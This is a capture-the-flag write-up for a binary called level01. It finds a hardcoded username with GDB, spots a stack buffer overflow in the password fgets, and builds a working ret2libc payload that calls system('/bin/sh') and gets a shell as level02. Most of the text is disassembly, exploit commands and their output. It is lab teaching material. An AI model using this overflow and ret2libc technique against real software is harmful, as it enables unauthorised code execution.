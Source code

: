 # Level01

First step - testing the program

    $ ./level01 
    ********* ADMIN LOGIN PROMPT *********
    Enter Username: coucou
    verifying username....

    nope, incorrect username...

The program ask a username

Start in GDB

The program use fgets for asking the inputs

First there is a function `verify_user_name` for check the username

   0x08048528 <+88>:	call   0x8048370 <fgets@plt>
   0x0804852d <+93>:	call   0x8048464 <verify_user_name>


The function do manual things equivalent to an strncmp on the input and the string `dat_wil`

    (gdb) disas verify_user_name
    Dump of assembler code for function verify_user_name:
    0x0804846c <+8>:	mov    DWORD PTR [esp],0x8048690    <--- "verifying username....\n"
    0x08048473 <+15>:	call   0x8048380 <puts@plt>
    0x08048478 <+20>:	mov    edx,0x804a040    <--- "dat_wil\n"
    0x0804847d <+25>:	mov    eax,0x80486a8    <--- "dat_wil"
    0x08048482 <+30>:	mov    ecx,0x7          <--- maximum ncmp
    0x08048487 <+35>:	mov    esi,edx
    0x08048489 <+37>:	mov    edi,eax
    0x0804848b <+39>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
    0x0804848d <+41>:	seta   dl
    0x08048490 <+44>:	setb   al
    0x08048493 <+47>:	mov    ecx,edx
    0x08048495 <+49>:	sub    cl,al
    0x08048497 <+51>:	mov    eax,ecx
    0x08048499 <+53>:	movsx  eax,al
    0x0804849c <+56>:	add    esp,0x10
    0x0804849f <+59>:	pop    esi
    0x080484a0 <+60>:	pop    edi
    0x080484a1 <+61>:	pop    ebp
    0x080484a2 <+62>:	ret    
    End of assembler dump.

Try to enter `dat_wil` in the input

    (gdb) r
    Starting program: /home/users/level01/level01 
    ********* ADMIN LOGIN PROMPT *********
    Enter Username: dat_wil
    verifying username....

    Enter Password: 

Good, the program continue and ask the password

In the disassembly, we can see also a function `verify_user_pass` after the second fgets

   0x08048574 <+164>:	call   0x8048370 <fgets@plt>
   0x08048579 <+169>:	lea    eax,[esp+0x1c]
   0x0804857d <+173>:	mov    DWORD PTR [esp],eax
   0x08048580 <+176>:	call   0x80484a3 <verify_user_pass>

The function do manual things equivalent to an strncmp, like the first function, on the input and the string `admin`

    (gdb) disas verify_user_pass
    Dump of assembler code for function verify_user_pass:
    0x080484a3 <+0>:	push   ebp
    0x080484a4 <+1>:	mov    ebp,esp
    0x080484a6 <+3>:	push   edi
    0x080484a7 <+4>:	push   esi
    0x080484a8 <+5>:	mov    eax,DWORD PTR [ebp+0x8]
    0x080484ab <+8>:	mov    edx,eax
    0x080484ad <+10>:	mov    eax,0x80486b0    <--- "admin"
    0x080484b2 <+15>:	mov    ecx,0x5
    0x080484b7 <+20>:	mov    esi,edx
    0x080484b9 <+22>:	mov    edi,eax
    0x080484bb <+24>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
    0x080484bd <+26>:	seta   dl
    0x080484c0 <+29>:	setb   al
    0x080484c3 <+32>:	mov    ecx,edx
    0x080484c5 <+34>:	sub    cl,al
    0x080484c7 <+36>:	mov    eax,ecx
    0x080484c9 <+38>:	movsx  eax,al
    0x080484cc <+41>:	pop    esi
    0x080484cd <+42>:	pop    edi
    0x080484ce <+43>:	pop    ebp
    0x080484cf <+44>:	ret    
    End of assembler dump.

But the password "admin" does not work

    (gdb) r
    Starting program: /home/users/level01/level01 
    ********* ADMIN LOGIN PROMPT *********
    Enter Username: dat_wil
    verifying username....

    Enter Password: 
    admin
    nope, incorrect password...

    [Inferior 1 (process 1858) exited with code 01]

In the code we can see the fgets call :

   0x0804855c <+140>:	mov    eax,ds:0x804a020
   0x08048561 <+145>:	mov    DWORD PTR [esp+0x8],eax
   0x08048565 <+149>:	mov    DWORD PTR [esp+0x4],0x64
   0x0804856d <+157>:	lea    eax,[esp+0x1c]
   0x08048571 <+161>:	mov    DWORD PTR [esp],eax
   0x08048574 <+164>:	call   0x8048370 <fgets@plt>

The buffer is stored on `esp+0x1c`. The fgets will read 0x64 (100)

At the top of the main, there is a bzero on this buffer :

   0x080484db <+11>:	lea    ebx,[esp+0x1c]
   0x080484df <+15>:	mov    eax,0x0
   0x080484e4 <+20>:	mov    edx,0x10
   0x080484e9 <+25>:	mov    edi,ebx
   0x080484eb <+27>:	mov    ecx,edx
   0x080484ed <+29>:	rep stos DWORD PTR es:[edi],eax

We can deduct the buffer size with the bzero : `0x10` (16)

The fgets will overflow, let's try!

    (gdb) r
    Starting program: /home/users/level01/level01 
    ********* ADMIN LOGIN PROMPT *********
    Enter Username: dat_wil
    verifying username....

    Enter Password: 
    AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
    nope, incorrect password...


    Program received signal SIGSEGV, Segmentation fault.
    0x55555555 in ?? ()

    ./get_offset.py 55
    U => offset = 80

We have EIP, start at the offset 80

Exploit this with a ret2libc. We need system, exit and a "/bin/sh" string addresses

    (gdb) info proc map
    process 1884
    Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
        0x8048000  0x8049000     0x1000        0x0 /home/users/level01/level01
        0x8049000  0x804a000     0x1000        0x0 /home/users/level01/level01
        0x804a000  0x804b000     0x1000     0x1000 /home/users/level01/level01
        0xf7e2b000 0xf7e2c000     0x1000        0x0 
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
        0xf7fd0000 0xf7fd4000     0x4000        0x0 
        0xf7fd8000 0xf7fdb000     0x3000        0x0 
        0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
        0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
        0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
        0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]
    (gdb) find 0xf7e2c000,0xf7fcc000,"/bin/sh"
    0xf7f897ec
    1 pattern found.
    (gdb) x/s 0xf7f897ec
    0xf7f897ec:	 "/bin/sh"

The address of the "/bin/sh" string is `0xf7f897ec`

    (gdb) info function system
    All functions matching regular expression "system":

    Non-debugging symbols:
    0xf7e6aed0  __libc_system
    0xf7e6aed0  system
    0xf7f48a50  svcerr_systemerr

Address of system : `0xf7e6aed0`

    (gdb) info function exit
    All functions matching regular expression "exit":

    Non-debugging symbols:
    0xf7e5eb70  exit
    0xf7e5eba0  on_exit
    0xf7e5edb0  __cxa_atexit
    0xf7e5ef50  quick_exit
    0xf7e5ef80  __cxa_at_quick_exit
    0xf7ee45c4  _exit
    0xf7f27ec0  pthread_exit
    0xf7f2d4f0  __cyg_profile_func_exit
    0xf7f4bc30  svc_exit
    0xf7f55d80  atexit

Address of exit : `0xf7e5eb70`

Build the payload!

    ("B" * 80) + "system" + "ret = exit" + "/bin/sh"

    $ python -c 'print "dat_wil\n"+"B"*80+"\xd0\xae\xe6\xf7"+"\x70\xeb\xe5\xf7"+"\xec\x97\xf8\xf7"' > /tmp/payload

    $ cat /tmp/payload - | ./level01 
    ********* ADMIN LOGIN PROMPT *********
    Enter Username: verifying username....

    Enter Password: 
    nope, incorrect password...

    whoami
    level02
